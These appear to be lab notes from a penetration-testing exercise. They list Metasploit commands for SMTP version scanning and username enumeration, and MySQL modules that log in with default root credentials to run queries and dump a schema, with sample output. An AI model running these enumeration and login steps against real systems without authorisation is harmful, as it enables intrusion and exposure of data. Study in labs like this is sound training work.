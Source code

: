 ### smtp_version

```
msfconsole
search smtp_version
use auxiliary/scanner/smtp/smtp_version
options
set RHOSTS 10.10.38.193
exploit
back
use auxiliary/scanner/smtp/smtp_enum 
set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
set RHOSTS 10.10.38.193
exploit
```

### mysql

**mysql_sql**

```
search mysql_sql
use auxiliary/admin/mysql/mysql_sql
options
set RHOSTS 10.10.60.123
set USERNAME root
set PASSWORD password
exploit
set SQL show databases
exploit
```

Output:

```
mysql version + tables
```


**mysql_schemadump**
```
search mysql_schemadump
use auxiliary/scanner/mysql/mysql_schemadump
set RHOSTS 10.10.60.123
set USERNAME root
set PASSWORD password
exploit
```

Output:

```
...
  - TableName: x$waits_by_user_by_latency
    Columns:
    - ColumnName: user
      ColumnType: varchar(32)
    - ColumnName: event
      ColumnType: varchar(128)
    - ColumnName: total
      ColumnType: bigint(20) unsigned
    - ColumnName: total_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned
  - TableName: x$waits_global_by_latency
```